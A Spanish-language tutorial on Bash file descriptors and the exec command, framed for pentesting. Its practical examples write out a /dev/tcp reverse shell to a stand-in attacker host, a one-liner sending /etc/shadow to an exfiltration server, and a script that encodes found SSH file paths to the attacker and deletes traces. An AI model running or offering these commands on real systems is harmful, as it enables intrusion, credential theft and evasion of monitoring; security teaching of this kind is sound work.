

# 🔄 Descriptores de Archivo en Bash: Redirección Avanzada

> [!info] Concepto clave
> Los descriptores de archivo son referencias numéricas a flujos de entrada/salida que permiten manipular y redirigir datos en sistemas Unix/Linux. Son fundamentales para el control preciso de flujos de información en scripts y ataques.

---

## 📋 Tabla de Contenidos
- [Fundamentos de descriptores](#fundamentos-de-descriptores)
- [El comando exec](#el-comando-exec)
- [Operaciones con descriptores](#operaciones-con-descriptores)
- [Casos de uso en ciberseguridad](#casos-de-uso-en-ciberseguridad)
- [Ejemplos prácticos](#ejemplos-prácticos)

---

## 💻 Fundamentos de descriptores

Los sistemas Unix/Linux utilizan descriptores de archivo como abstracción para manejar entrada/salida. Por defecto, existen tres descriptores estándar:

| Descriptor | Nombre | Propósito | Símbolo |
|------------|--------|-----------|---------|
| 0 | STDIN | Entrada estándar | `<` |
| 1 | STDOUT | Salida estándar | `>` |
| 2 | STDERR | Salida de errores | `2>` |

> [!note] Cualquier número mayor a 2 es un descriptor personalizado que podemos crear y manipular según nuestras necesidades.

---

## 🔄 El comando exec

El comando `exec` permite manipular descriptores de archivo directamente desde el shell, lo que facilita operaciones avanzadas de redirección.



### Sintaxis básica

```bash
# Formato general
exec descriptor<operador> destino
```

Donde:
- **descriptor**: Número del descriptor de archivo (3, 4, 5...)
- **operador**: Define el modo (`<` para lectura, `>` para escritura, `<>` para ambos)
- **destino**: Archivo o recurso al que se asocia el descriptor

---

## 🛠️ Operaciones con descriptores

### Apertura de descriptores

```bash
# Abrir descriptor 3 para lectura y escritura
exec 3<> nombre_archivo
```

> [!tip] Modos de apertura
> - `<` → Solo lectura
> - `>` → Solo escritura (crea/trunca archivo)
> - `<>` → Lectura y escritura

### Redirección hacia descriptores

```bash
# Enviar salida de un comando al descriptor 3
whoami >&3
```

### Cierre de descriptores

```bash
# Cerrar el descriptor 3
exec 3>&-
```

> [!warning] Importante
> Siempre cierra los descriptores que ya no necesites para evitar fugas de recursos, especialmente en ataques que requieren discreción.

---

## 🔐 Casos de uso en ciberseguridad

Los descriptores de archivo son herramientas poderosas en escenarios de pentesting y ciberseguridad:

1. **Persistencia discreta**:
   - Mantener comunicaciones abiertas con sistemas comprometidos
   - Evitar registros en archivos de log estándar

2. **Túneles de datos**:
   - Crear canales ocultos para exfiltración de información
   - Establecer shells reversas más difíciles de detectar

3. **Manipulación de procesos**:
   - Inyectar comandos en procesos existentes
   - Capturar salida de programas para análisis posterior

4. **Bypass de protecciones**:
   - Eludir restricciones de shell limitadas
   - Sortear filtros de entrada/salida

---

## 💡 Ejemplos prácticos

### Ejemplo 1: Shell persistente con descriptor

```bash
# Crear un descriptor conectado a un socket de red
exec 3<>/dev/tcp/atacante.com/443

# Redirigir entrada/salida al descriptor
exec 0<&3
exec 1>&3
exec 2>&3

# Ejecutar shell usando el canal establecido
bash -i

# Al finalizar, cerrar el descriptor
exec 3>&-
```

> [!example] Explicación
> Este ejemplo crea un canal de comunicación a través del descriptor 3 hacia un servidor remoto en el puerto 443. Luego redirige STDIN, STDOUT y STDERR a este canal, permitiendo una shell interactiva que se comunica a través de la conexión TCP establecida.

### Ejemplo 2: Exfiltración sigilosa de datos

```bash
# Abrir descriptor para archivo sensible
exec 3< /etc/shadow

# Abrir canal de comunicación
exec 4<>/dev/tcp/servidor-exfil.com/8080

# Enviar datos a través del canal
cat <&3 >&4

# Cerrar descriptores
exec 3>&-
exec 4>&-
```

> [!info] Ventaja táctica
> Al usar descriptores de archivo directamente, se evita crear procesos adicionales que podrían ser detectados por herramientas de monitorización de procesos como `ps` o `top`.

### Ejemplo 3: Captura y manipulación de salida

```bash
# Crear archivo temporal para almacenar resultados
touch /tmp/.output

# Abrir descriptor para el archivo
exec 5<> /tmp/.output

# Ejecutar comando y capturar su salida
find /home -name "*.ssh" >&5

# Procesar resultados sin crear nuevos procesos visibles
exec 6< /tmp/.output
while read -u 6 line; do
    # Procesar cada línea
    echo "$line" | base64 >&3  # Enviar codificado al descriptor 3 (atacante)
done

# Limpiar evidencias
exec 5>&-
exec 6>&-
rm /tmp/.output
```

---

## 🧠 Conceptos avanzados

> [!tip] Técnicas avanzadas
> - **Duplicación de descriptores**: `exec 4>&3` (descriptor 4 apunta al mismo destino que 3)
> - **Descriptores en subshells**: `(exec 3>archivo; comando >&3)` (el descriptor solo existe en la subshell)
> - **Redirección bidireccional**: Permite crear canales de comunicación complejos entre procesos

```bash
# Ejemplo de canal bidireccional usando named pipes
mkfifo /tmp/pipe1 /tmp/pipe2
exec 3<>/tmp/pipe1
exec 4<>/tmp/pipe2

# En otra terminal/proceso
exec 5<>/tmp/pipe2
exec 6<>/tmp/pipe1
```

---

> [!warning] Consideraciones de seguridad
> - Los descriptores de archivo persisten hasta que se cierran explícitamente o hasta que termina el proceso
> - En servidores comprometidos, siempre verifica descriptores abiertos con `lsof` como parte del análisis forense
> - Las conexiones establecidas con descriptores pueden permanecer invisibles para herramientas básicas de monitoreo